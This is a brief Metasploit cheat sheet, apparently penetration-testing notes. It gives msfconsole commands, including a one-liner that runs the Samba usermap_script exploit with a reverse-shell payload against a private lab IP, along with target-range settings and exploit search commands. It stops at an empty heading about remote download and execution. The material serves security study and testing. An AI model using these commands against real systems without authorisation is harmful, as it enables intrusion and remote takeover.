 # Metasploit

## Metasploit Notes

Singles are payloads that are self-contained and completely standalone. Stagers setup a network connection between the attacker and victim and are designed to be small and reliable. Stages are payload components that are downloaded by Stagers modules.

## Metasploit Basics

Run exploit in one command:

```text
msfconsole -x "use exploit/multi/samba/usermap_script; set RHOST 172.16.194.172; set PAYLOAD cmd/unix/reverse; set LHOST 172.16.194.163; run"
```

Obtain information on an exploit:

```text
msf > info exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Search for content:

```text
msf > search usermap_script
```

Adding Target Range

```text
msf > set RHOSTS 10.10.10.0/24
msf > set RHOSTS 10.10.10.1-10.10.10.255
```

Logging Session

```text
msf > set SessionLogging true [logging all information typed into all interactive sessions (command shell or Meterpreter) on exploited target systems.]
msf > set ConsoleLogging true [Session Logging user's home directory, in the ~/.msf4/logs directory]
```

Narrow down to a platform:

```text
msf > search platform:aix
```

Determine what operating system is vulnerable to a particular exploit:

```text
msf  exploit(ms08_067_netapi) > show targets
```

Download file from and execute on remote machine:
